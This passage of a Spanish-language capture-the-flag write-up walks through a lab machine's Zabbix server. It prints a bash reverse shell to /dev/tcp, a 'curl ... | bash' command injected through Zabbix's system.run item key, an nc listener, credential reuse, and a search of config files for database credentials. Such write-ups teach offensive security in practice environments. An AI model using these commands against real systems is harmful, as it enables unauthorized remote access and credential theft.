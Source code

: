 Ahora que sabemos que podemos ejecutar comandos en el host, procedemos a aplicar la _reverse\_shell_:

> Reverse shell con **curl** :
{: .prompt-info}

> Creamos un archivo _index.html_ con una reverse en `bash`:

```html
#!/bin/bash
 
bash -i >& /dev/tcp/{nuestra\_IP}/{puerto} 0>&1
```

> Con `python3` y en el mismo directorio compartimos un **servidor http** : `python3 -m http.server 80`

> En paralelo con `nc` nos ponemos en escucha para recibir la shell: `nc -lvp {puerto}`

> Nos dirigimos al apartado para agregar un **_item_ (Configuration -\> Hosts -\> items -\> Create item)** y agregamos un nombre cualquiera y en el apartado del agente seleccionas la key _system.run[command, \<mode\>]_ pero de la siguiente manera: `system.run[curl http://{nuestra_IP} | bash, nowait]`

![System\_run](system_run_key.png){: .shadow}

> Presionamos el botón `_Test_`, luego `_Get value_` y recibiremos la shell como **zabbix**:

![Foothold](foothold.png){: .shadow }

Ahora para manejarnos mejor por consola hacemos un tratamiento rápido de la **TTY**:

![TTY](stty_1.png){: .shadow }
![TTY](stty_2.png){: .shadow }

Buscamos que usuarios existen, intentamos ver la **flag** pero necesitamos ser el usuario **_ipmi\-svc_**, probamos reusar las credenciales del login de `Zabbix` y pa-dentro:

![FLAG](flag.png){: .shadow }

## Privilege Escalation

* * *

Como el usuario _ipmi\-svc_ intentamos listar **binarios con permisos SUID** `find \-perm 4000 2>/dev/null` y **binarios que podamos ejecutar como root** `sudo -l`, pero no encontramos nada interesante

Sabemos que tenemos un agente `Zabbix`, así que intentamos buscar archivos de configuración de podemos leer y conseguimos unas credenciales de una base de dat
os:  

![DB\_ZABBIX](db_zabbix_credentials.png){: .shadow }

También podemos hacer uso de _LinPEAS_ que nos permite encontrar posibles rutas para escalar privilegios: [LinPEAS](https://github.com/carlospolop/PEASS-ng/tr
ee/master/linPEAS)
